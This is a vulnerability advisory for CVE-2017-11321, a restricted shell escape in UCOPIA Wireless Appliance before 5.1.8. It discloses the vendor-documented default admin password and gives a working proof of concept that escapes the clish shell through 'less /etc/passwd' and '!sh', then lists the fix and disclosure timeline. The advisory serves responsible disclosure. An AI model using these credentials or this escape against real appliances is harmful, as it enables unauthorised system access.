 # [CVE-2017-11321] UCOPIA Wireless Appliance < 5.1.8 Restricted Shell Escape

## Asset Description

UCOPIA solutions bring together a combination of software, appliance and cloud services serving small to large customers.

More than 12,000 UCOPIA solutions are deployed and maintained by UCOPIA expert partners all over the world.

The affected asset in this report is a WiFi management appliance.


## Vulnerability

Shell Escape via `less` command.

**Threat**

Improper sanitization of system commands in the restricted shell interface in UCOPIA Wireless Appliance, prior to 5.1.8, allows remote attackers to gain access to a system shell as the "admin" user.

**CVE ID**: CVE-2017-11321

**Access Vector**: network

**Security Risk**: critical

**Vulnerability**: CWE-78

**CVSS Base Score**: 9.1 (Critical)

**CVSS Vector**: CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H

### Proof of Concept: Restricted Shell Escape

By default, the UCOPIA wireless appliances exposes two shell access on port 22 (SSH) and 222 (ShellInTheBox).

A documented **admin** user exists on the system with the password **bhu85tgb**.

Quoted from the documentation :

> You can also retrieve the IP address of the outgoing interface. For this, you need to log in to the terminal of the virtual machine with
the following username and password: admin/bhu85tgb, and then execute the interface command.

By logging in within these interfaces, we can access to a restricted shell (*clish*) that allows only a few commands.

However, the `less` command is allowed, and because `less` allows to execute shell commands when viewing a file, we can use it to escape the restricted shell.

Steps :

**1/** Login to the appliance using SSH or ShellInTheBox.

**2/** Run the `less /etc/passwd` command.

**3/** When viewing the file, type `!sh`

**4/** You now have unrestricted `admin` user access to the appliance.

```
> less /etc/passwd
!sh
$ ls /
bin dev etc home lib proc tmp user
$ whoami
admin
```

## Solution

Update to UCOPIA 5.1.8

## Timeline (dd/mm/yyyy)

* 08/03/2017 : Vulnerability discovery.
* 03/05/2017 : Initial contact.
* 10/05/2017 : GPG Key exchange.
* 10/05/2017 : Advisory sent to vendor.
* 17/05/2017 : Request for feedback.
* 22/05/2017 : Vendor acknowledge the vulnerabilities.
* 21/06/2017 : Labs request for an ETA, warning for public disclosure.
* 21/06/2017 : Vendor say that the UCOPIA 5.1.8 fixes the issue.
* 29/09/2017 : Public disclosure.

## Credits

* Nicolas Chatelain, TNP Consultants (nicolas.chatelain -at- tnpconsultants -dot- com)
